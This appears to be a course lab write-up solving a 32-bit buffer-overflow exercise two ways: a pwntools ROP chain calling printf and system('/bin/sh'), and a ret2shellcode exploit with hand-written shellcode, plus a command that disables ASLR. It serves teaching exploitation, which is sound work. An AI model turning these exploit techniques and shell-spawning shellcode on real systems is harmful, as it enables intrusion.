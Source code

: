 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**
![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue
& will print "I did it!"

`solver.py`
```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d66000
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

I_addr = libc_base + next(libc.search(b'I'))
d_addr = libc_base + next(libc.search(b'd'))
i_addr = libc_base + next(libc.search(b'i'))
t_addr = libc_base + next(libc.search(b'T'))
exclamation_addr = libc_base + next(libc.search(b'!'))

format_string = libc_base + next(libc.search(b'%s'))

rop = ROP(binary)

rop.call("printf", [format_string, I_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, t_addr])
rop.call("printf", [format_string, exclamation_addr])

rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit

sys.stdout.buffer.write(payload)
```

```
./lab9 $(python3 solver.py)
```
![image](https://gist.github.com/user-attachments/assets/1c6f15b4-93d0-4cca-8da3-c1af28b58b22)








## Ret2Shellcode Way Solution

![image](https://github.com/user-attachments/assets/209afafb-8d9c-41f3-b554-e150efaa470b)

Since our binary has an executable stack(RWX) (indicated by Stack: Executable and NX: NX unknown) 
a ret2shellcode approach is possible. This means we can inject shellcode directly onto the stack and then use a ROP chain to jump to it.

**Find Shellcode Address via GDB**

```bash
b unsafe

run $(python3 -c 'print("A" * 100)')

```

![image](https://github.com/user-attachments/assets/d719489d-1de9-4310-ab2a-42493415b2eb)

**Craft your Exploit**

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./lab9')
context.terminal = ['alacritty', '-e']

offset = 22
shellcode_addr = 0xffffcf50 # somewhere in the nop sled
message_addr = 0xffffd6bc

gs = """
b *main
continue
"""

shellcode = f"""
push 0x41410a21
push 0x74692064
push 0x69642049

push 4
pop eax
push 1
pop ebx
mov ecx, esp
push 10
pop edx
int 0x80

push 0x4168732f
push 0x6e69622f

xor eax, eax
mov byte [esp + 6], al

mov al, 11
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

payload = b'A'*offset + pack(shellcode_addr)
payload += b'\x90' * 1000
payload += asm(shellcode)

io = process([elf.path, payload])
io.interactive()
```

#### Run it

```bash
python3 solver.py
```

![image](https://github.com/user-attachments/assets/4d8cb0b9-a08e-43f6-a658-8f53d2ded955)


![image](https://github.com/user-attachments/assets/f9687a27-24e8-4230-b8a7-4aa0141db6eb)


### GG We did it

![image](https://github.com/user-attachments/assets/ad93791e-fc88-4fe8-8f8a-9eae462643ab)

